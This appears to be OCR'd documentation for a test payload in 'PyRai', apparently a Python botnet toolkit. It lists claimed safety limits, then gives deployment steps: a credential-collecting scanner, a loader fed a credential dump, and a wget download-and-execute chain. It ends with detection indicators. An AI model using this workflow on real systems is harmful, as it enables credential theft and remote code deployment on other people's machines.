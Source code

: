 ## Security Controls

### 1. Execution Limits
- **Time Limit**: Maximum 10 minutes execution
- **Network Limit**: Test ranges only
- **File System**: Temporary files only
- **Process Limit**: Read-only process enumeration

### 2. Data Protection
- **No Sensitive Data**: Avoids collecting passwords or keys
- **Filtered Output**: Environment variables are filtered
- **Limited Scope**: Only safe system information

### 3. Cleanup Mechanisms
- **Automatic**: Self-destruct timer
- **Manual**: Exception-triggered cleanup
- **Complete**: All created files removed

## Integration with PyRai

### Deployment via Loader
```bash
# 1. Start relay
python relay.py

# 2. Start scanner (to collect credentials)
python scanner.py

# 3. Deploy payload using loader
python loader.py dump/csdb.txt
```

### Loader Integration
- **HTTP Server**: Serves payload on port 31338
- **Download Command**: `wget http://127.0.0.1:31338/test_payload.py`
- **Execution**: `python3 test_payload.py`
- **Cleanup**: Automatic removal after execution

## Monitoring and Detection

### Log Indicators
- Process creation: `python3 test_payload.py`
- File creation in `/tmp/` or `C:\temp\`
- Network connections to localhost:31338
- JSON file creation with reconnaissance data

### Behavioral Indicators
- System information enumeration
- Limited network scanning
- File creation and deletion patterns
- Short-lived process execution
